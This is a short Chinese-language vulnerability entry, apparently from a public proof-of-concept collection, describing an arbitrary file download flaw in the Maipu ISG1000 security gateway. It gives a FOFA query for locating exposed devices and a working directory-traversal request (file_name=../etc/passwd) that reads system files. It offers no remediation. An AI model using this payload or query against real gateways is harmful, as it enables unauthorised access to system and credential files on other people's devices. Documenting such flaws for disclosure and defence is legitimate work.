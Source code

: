 # 迈普 ISG1000安全网关 任意文件下载漏洞

## 漏洞描述

迈普 ISG1000安全网关 存在任意文件下载漏洞，攻击者通过漏洞可以获取服务器任意文件

## 漏洞影响

```
迈普 ISG1000安全网关
```

## FOFA

```
title="迈普通信技术股份有限公司"
```

## 漏洞复现

登录页面如下

![](./images/202202110950648.png)

请求的 POC 为

```plain
/webui/?g=sys_dia_data_down&file_name=../etc/passwd
```

![](./images/202202110950317.png)